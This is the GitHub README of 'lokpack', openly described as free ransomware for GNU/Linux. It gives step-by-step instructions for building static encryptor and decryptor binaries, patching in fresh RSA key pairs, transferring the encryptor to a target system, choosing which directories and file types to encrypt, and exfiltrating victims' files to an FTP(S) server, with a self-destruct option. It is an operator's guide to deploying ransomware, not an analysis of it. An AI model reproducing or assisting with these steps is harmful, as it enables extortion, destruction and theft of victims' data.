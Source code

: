 # lokpack | ransomware tooling for GNU/Linux

[![Tests](https://github.com/ngn13/lokpack/actions/workflows/test.yml/badge.svg)](https://github.com/ngn13/lokpack/actions/workflows/test.yml)
[![Release](https://github.com/ngn13/lokpack/actions/workflows/release.yml/badge.svg)](https://github.com/ngn13/lokpack/actions/workflows/release.yml)

lokpack is a free ransomware for modern GNU/Linux systems, written in C

https://github.com/user-attachments/assets/bc89fac8-8203-4e80-a270-b208ce8773d5

## Features

- Build static encryption and decryption tools
- Steal files using a FTP(S) server
- Specify custom target paths and extensions
- Uncrackable encryption with 8192 bit RSA and AES-256
- Fully multi-threaded

## Tested on...

Latest release is automatically tested weekly on the latest Ubuntu LTS using
github actions. I also manually tested the latest release on the following
systems:

- Arch Linux 2025-06-02, x86-64
- Ubuntu 24.04.2 LTS (Noble Numbat), x86-64
- FreeBSD 14.2-RELEASE, i386

If you experience issues on any GNU/Linux system, feel free to create an issue.
This project does not target BSD systems, however if you experience any issues
on popular BSD systems (FreeBSD, NetBSD, OpenBSD etc.) I can try to fix them as
well.

## Installation

### Binary builds

Binary builds (automatically built with github actions) are published for each
release. These releases contain static, cross-compiled built encryptor and
decryptor binaries with a randomly generated RSA key pair.

Each release also contains a simple python(3) patch script, which you can use to
generate a new RSA key pair and replace the pair contained in the binaries:

```bash
# make sure you have pycryptodome installed
python3 patch.py
```

### From the source

To obtain the source code, download the
[latest](https://github.com/ngn13/lokpack/releases/latest) release archive, or
clone the repository and checkout the latest tag. **Do not use any other commit
or branch** unless you are doing development.

#### Setup

- A GNU/Linux system, you may also be able to build on BSD systems
- GCC, GNU make and other GNU build tools
- curl (and headers)
- OpenSSL (and headers)

**If you want to cross-compile the binaries for a different system**, you'll
will need the cross-compilation tools for the target system. **If your distro
does not package cross-compilation tools**, you can build them yourself. After
building them you should specify their paths with environment variables, for
example:

```bash
export CC=/opt/cross/bin/x86_64-linux-gnu-gcc
export LD=/opt/cross/bin/x86_64-linux-gnu-ld
export AS=/opt/cross/bin/x86_64-linux-gnu-as
```

You should also add path of the cross-compilation headers to the include path:

```bash
export C_INCLUDE_PATH=/opt/cross/include
```

**If you want to static binaries**, you will also need static libraries of curl
and OpenSSL. **If your distro does not package these**, you can build them
yourself or use the automated build scripts:

```bash
./scripts/openssl.sh
./scripts/curl.sh
```

#### Build

For a static build (requires static libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -static
```

For a local build (requires shared libraries) with a randomly generated RSA key
pair:

```bash
./scripts/build.sh -local
```

Both of these should create the `encryptor` and the `decryptor` binaries at
`dist/`.

You can also build the binaries with an hardcoded key pair, and later patch them
using the `patch.py` script, which is located under the scripts directory:

```bash
make
cd dist && python3 ../scripts/patch.py
```

This also let's you customize different build options:

```bash
make LP_QUEUE_MAX=400
```

You can get a full list of these build options by running `make help`.

## Usage

After transferring `encryptor` to the target system, you can specify custom
options:

```bash
$ ./encryptor --help
[*] Listing available options:
    --threads   => Thread count for the thread pool
    --paths     => Target paths (directories/files)
    --exts      => Target file extensions
    --ftp-url   => Address for the FTP(S) server
    --ftp-user  => FTP(S) username
    --ftp-pwd   => FTP(S) password
    --no-ftp    => Disable stealing files with FTP(S)
    --no-bar    => Disable simple ASCII progress bar
    --destruct  => Self destruct (delete) the program
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home`
without FTP using 100 threads:

```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```

If you want to encrypt all files with all extensions, use the `--exts` options
with an empty value, so just `--exts=`.

Decryptor does not have any options, you only need to specify a target directory
or a file to decrypt. For example to decrypt all the encrypted files in `/var`,
you can run:

```bash
./decryptor /var
```

### Setting up FTP(S)

For an actual FTP(S) setup you should install and configure a FTP daemon such as
`vsftpd`. But for testing you can use `pyftpdlib`:

```bash
# username and password are 'anonymous'
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Development

After making any changes to the source code, make sure the format the code and
check for any linting errors (requires a recent version of `clang-format` and
`clang-tidy`):

```bash
make format # fix formatting
make check # check for formatting and linting errors
```

Make sure the fix any reported issues. Also make sure to test the binaries using
the `scripts/test.sh` script (requires `openssl` and `pyftpdlib`):

```bash
make test
```

If you experience any issues, enable the debug messages, compile the binaries
with debug messages. This might help you to quickly spot the issue:

```bash
make LP_DEBUG=1 # uses hardcoded key pair
# or...
./scripts/build.sh -debug # uses random key pair
```

Also if you want to submit any changes, feel free to create a pull request. Just
make sure to target the `dev` branch instead of `main`.

---

Don't do crime!
